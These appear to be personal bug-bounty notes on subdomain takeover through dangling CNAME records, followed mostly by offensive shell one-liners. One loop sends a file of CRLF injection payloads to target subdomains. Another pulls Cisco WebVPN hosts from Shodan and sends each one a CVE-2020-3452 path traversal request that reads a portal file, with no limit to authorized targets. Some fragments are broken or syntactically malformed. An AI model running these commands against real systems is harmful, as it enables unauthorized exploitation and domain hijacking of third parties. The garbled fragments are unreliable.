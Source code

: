 Tips for STKO - 

If the website is not used by the target which is laying in any service
provider.

Dangling CNAME Records (Lazy Admins make dns records but never claim)

We will claim them from github, heroku, shopify, zendesk,
aws, tumblr
 
Hunt subdomains using findomain use -r to see resolved subs

Hunt Acquistions by reverse whois saved in combinedsubs.txt

combinedsubs.txt | sort -u | httpx | tee finalsubs.txt 


cat hakeronexsstry.json | 



	



cat appleunique.json | awk '{print $1}' | while read host do ;do findomain -t $host -r | tee -a combined.json && subzy --targets combined.json  -hide_fails -concurrency 100 | tee -a appletakeover.json;done 



subzy --targets subs.json  -hide_fails -concurrency 100


/Users/rohit/Tools/ytlive/cve20203452/CRLF-one-liner/

input='/Users/rohit/Tools/ytlive/cve20203452/CRLF-one-liner/subdomains.txt';while IFS= read -r targets; do cat /Users/rohit/Tools/ytlive/cve20203452/CRLF-one-liner/crlf_payloads.txt|xargs -I % sh -c "curl -vs --max-time 9 $targets/% 2>&1 |grep -q '< Set-Cookie: ?crlf'&& echo $targets 'seems to be vulnerable with payload as'%>>crlf_results.txt||echo 'not vulnerable '$targets";done<$input

Modified - 
input='/Users/rohit/Tools/ytlive/cve20203452/CRLF-one-liner/subdomains.txt';while IFS= read -r targets; do cat /Users/rohit/Tools/ytlive/cve20203452/CRLF-one-liner/crlf_payloads.txt|xargs -I % sh -c "curl -vs --max-time 9 $targets/% 2>&1 |grep -q '< Set-Cookie: ?crlf'&& echo $targets '\033[0;31mVulnerable vulnerable with payload as '%>>crlf_results.txt||echo '\033[0;32mNot Vulnerable\n '$targets";done<$input






shodan search "set-cookie: webvpn;"  --fields ip_str --separator " " | awk '{print $1}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | tac | tac | grep -qs "otrizna@cisco.com" && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done




Final XSS : - 

 python3 paramspider.py -d testphp.vulnweb.com > xx.json
